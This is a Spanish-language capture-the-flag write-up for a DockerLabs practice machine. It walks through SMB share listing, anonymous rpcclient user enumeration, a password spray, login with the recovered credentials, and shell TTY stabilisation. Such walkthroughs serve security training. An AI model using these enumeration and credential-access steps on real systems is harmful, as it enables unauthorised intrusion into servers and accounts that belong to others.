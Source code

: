 
# Maquina domain dockerlabs

## Se nos presenta un escenario en el cual una maquina de docker con los siguientes servicios:

Nmap scan report for 172.17.0.2 (172.17.0.2)
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.52 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2

1. Viendo que está el puerto 445 abierto vamos a ver los recursos:
```bash
smbclient -L 172.17.0.2 -N                                       
```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	html            Disk      HTML Share
	IPC$            IPC       IPC Service (db490d38775f server (Samba, Ubuntu))

### Cuando nos dirigimos a la web vemos una página mencionando lo que es samba, por lo que podemos ir deduciendo el vector de ataque.
    
2. Ahora que ya vemos los recursos podemos usar `rpcclient` para extraer usuarios:	
```bash
rpcclient -U '' -N 172.17.0.2
rpcclient $> qu
queryaliasinfo        querydispinfo         querydispinfo3        querygroup            querymultiplevalues   querysecret           queryuseraliases      quit
queryaliasmem         querydispinfo2        querydominfo          querygroupmem         querymultiplevalues2  queryuser             queryusergroups       
rpcclient $> querydis
querydispinfo   querydispinfo2  querydispinfo3  
rpcclient $> querydisfo
command not found: querydisfo
rpcclient $> querydisp
querydispinfo   querydispinfo2  querydispinfo3  
rpcclient $> querydispinfo
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: james	Name: james	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: bob	Name: bob	Desc: 
rpcclient $> enumdomusers
user:[james] rid:[0x3e8]
user:[bob] rid:[0x3e9]
```

Con `enumdomusers` se ve más claro.

3. Ahora, teniendo los usuarios enumerados, podemos hacer un spray de passwords.

4. Una vez tenemos la contraseña del usuario, vuelvo a usar `smbmap` y veo que hay un recurso con permisos de lectura y escritura llamado html.

Para conectar con el recurso html uso `smbclient`:
```bash
smbclient //172.17.0.2/html -U bob%star
```
## Tratamiento de TTY

### Mi método
```bash
script -c bash 2>/dev/null
Control + z 
stty raw echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```

### Método recomendable
```bash
script /dev/null -c bash
Control+Z
stty raw -echo; fg
reset
xterm
export SHELL=bash; export TERM=xterm
```
#### Así valdría pero si tienes que usar nano por ejemplo tienes que ajustar el tamaño de stty de tu term con la de shell
```bash
stty -a
```
